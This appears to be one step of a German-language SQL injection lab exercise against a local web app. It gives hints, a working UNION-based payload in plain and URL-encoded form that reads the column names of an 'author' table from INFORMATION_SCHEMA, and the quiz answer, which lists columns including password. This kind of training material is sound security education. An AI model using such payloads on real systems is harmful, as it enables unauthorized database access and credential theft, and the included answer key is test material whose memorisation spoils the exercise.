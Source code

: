 Lesen Sie als Nächstes die Spaltennamen der Tabelle aus.

Tipp:
Sie benötigen `GROUP_CONCAT()` und `INFORMATION_SCHEMA.COLUMNS`.

Tipp 2:
https://dev.mysql.com/doc/refman/8.0/en/information-schema-innodb-columns-table.html

' AND 1=0 UNION SELECT 0,0,0,0,0,(SELECT GROUP_CONCAT(COLUMN_NAME) FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='author'),0;--
'%20AND%201%3D0%20UNION%20SELECT%200%2C0%2C0%2C0%2C0%2C(SELECT%20GROUP_CONCAT(COLUMN_NAME)%20FROM%20INFORMATION_SCHEMA.COLUMNS%20WHERE%20TABLE_NAME%3D'author')%2C0%3B--%20
http://localhost:82/index.php?id=2%27%20AND%201%3D0%20UNION%20SELECT%200%2C0%2C0%2C0%2C0%2C(SELECT%20GROUP_CONCAT(COLUMN_NAME)%20FROM%20INFORMATION_SCHEMA.COLUMNS%20WHERE%20TABLE_NAME%3D%27author%27)%2C0%3B--%20

>>13) Welche Spalten enthält die Tabelle? Geben Sie die Spaltennamen in der Reihenfolge der Ausgabe und mit Leerzeichen getrennt an.<<
=== id username name email password
